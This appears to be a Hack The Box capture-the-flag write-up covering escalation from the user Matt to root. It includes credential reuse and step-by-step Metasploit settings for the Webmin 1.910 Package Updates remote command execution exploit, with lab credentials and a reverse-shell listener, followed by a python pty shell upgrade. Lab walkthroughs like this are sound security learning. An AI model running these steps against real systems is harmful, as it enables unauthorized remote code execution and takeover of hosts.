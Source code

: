 # Enumeration & Escalation as Matt

- Start by enumerating the system again either manually and with the `linpeas` script.
- Nothing immediately obvious sticks out - no interesting sudo binaries, config files, backups, cronjobs,....
- We have credentials...we **need** to try them against anything on the host that accepts credentials. This includes webpages
- Success...
	- ![](Pasted%20image%2020230215205548.png)


## Rooting the box (Matt -> Root)
- We're now authenticated to the webmin service, have some great enumeration information in front of us (that we have confirmed previously), and can start snooping around the various links for any further vulnerabilities.
- First check [exploit-db](https://www.exploit-db.com) for any exploits regarding Webmin 1.910 (identified on the dashboard above and by nmap)
- Theres many results when searching for webmin, but theres a potential easy button here with the [Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)]( https://www.exploit-db.com/exploits/46984) exploit.
- On Kali:
	1. Open metasploit in a new terminal window by running `msfconsole`
	2. In the prompt type `search webmin` resulting in something like
		1. ![](Pasted%20image%2020230215210920.png)
	3. Select `exploit/linux/http/webmin_packageup_rce` by typing `use 4`
	4. This will load the exploit and allow you to set exploit specific options:
		1. `set RHOST $IP` - this will set the remote host aka the victim
		2. `set RPORT 10000` - since we are attacking the webmin service, we need to point it towards the right webapp
		3. `set LHOST tun0` - rather than specifying a listening host IP, we can set a local interface. The Hackthebox runs on `tun0`
		4. `set USERNAME Matt` - this is case sensitive
		5. `set PASSWORD computer2008`
		6. `set SSL true` - we cant hit the webmin dashboard with HTTP, it requires HTTPS so we must enable SSL for the exploit as well
		7. `exploit`
- Success...
	- ![](Pasted%20image%2020230215211355.png)
- This is a horrible shell though, so we'll need to upgrade it for QoL purposes. The easiest way to do so is using python if its present on the system.
	- `which python`
	- `python -c 'import pty;pty.spawn("/bin/bash")'`
- ![](Pasted%20image%2020230215211514.png)
